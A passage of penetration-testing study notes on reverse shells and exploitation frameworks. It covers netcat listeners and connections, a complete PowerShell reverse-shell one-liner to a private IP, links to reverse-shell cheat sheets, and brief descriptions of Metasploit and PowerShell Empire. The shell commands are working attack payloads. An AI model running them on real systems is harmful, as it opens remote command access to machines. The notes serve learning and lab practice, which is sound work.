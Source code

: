 ```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Linux machine (localhost in this case)
nc -nv 127.0.0.1 1234 -e /bin/bash
```

#### Reverse Shell without Netcat

📌 [PayloadsAllTheThings - Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

* Examples of Reverse Shell with different code (bash, Python, Powershell, PHP, etc)

📌 [Reverse Shell Generator](https://www.revshells.com/)

e.g.

```bash
# Kali Linux attacker machine
nc -nvlp 9001
```

```bash
# Windows target machine
# Run CMD and paste the code below
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.31.128',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Exploitation Frameworks

### [The Metasploit Framework](broken-reference)

* Focus on the **Exploitation** phase
* Modular
* MSF turns the exploit code into a module, using the `Ruby` programming language

> 🔬 Check the [Workflow Platform Lab here](broken-reference)

### [PowerShell-Empire](https://github.com/BC-SECURITY/Empire)

**`Empire`** - PowerShell post-exploitation framework for Win, Linux and macOS

> _Empire is a post-exploitation and adversary emulation framework that is used to aid Red Teams and Penetration Testers. The Empire server is written in Python 3 and is modular to allow operator flexibility. Empire comes built-in with a client that can be used remotely to access the server. There is also a GUI available for remotely accessing the Empire server,_ [_Starkiller_](https://github.com/BC-SECURITY/Starkiller)_._
